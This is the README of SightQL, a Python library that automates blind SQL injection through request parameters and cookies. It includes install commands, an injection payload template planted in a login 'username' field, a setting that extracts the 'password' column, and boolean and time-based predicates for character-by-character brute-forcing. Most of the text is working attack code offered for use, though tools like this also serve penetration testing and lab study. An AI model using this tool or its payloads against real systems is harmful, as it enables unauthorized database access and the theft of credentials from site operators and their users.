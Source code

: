 # SightQL

## Description

SightQL is a Python library which allows to exploit an SQL Injection using multiple entrypoints such as classical GET/POST parameters and cookies.

## Installation

```
git clone https://github.com/Ruulian/SightQL.git
cd SightQL
python3 setup.py install
```

## Usage

```py
from sightql import SightQL

def predicate(r) -> bool:
    """
    r : requests.models.Response

    The predicates must take a "requests" response and return a bool
    """
    return "Welcome back" in r.text

s = SightQL(
    target="http://localhost",
    params={
        "username":"admin' and {payload} -- -",
        "password":"foo"
    },
    column_to_exfil="password",
    predicate=predicate
)

s.restore()

```

The library will replace all the ``{payload}`` strings in your params/cookies keys and bruteforce all the characters.

### Predicate examples

Blind SQL Injection in login form:
```py
def predicate(r):
    return "Welcome back" in r.text
```

Blind SQL Injection Time Based:
```py
SLEEP_SECONDS = 5

def predicate(r):
    return r.elapsed.seconds > SLEEP_SECONDS
```

## TODO

- Add the headers and User Agent in possible entrypoints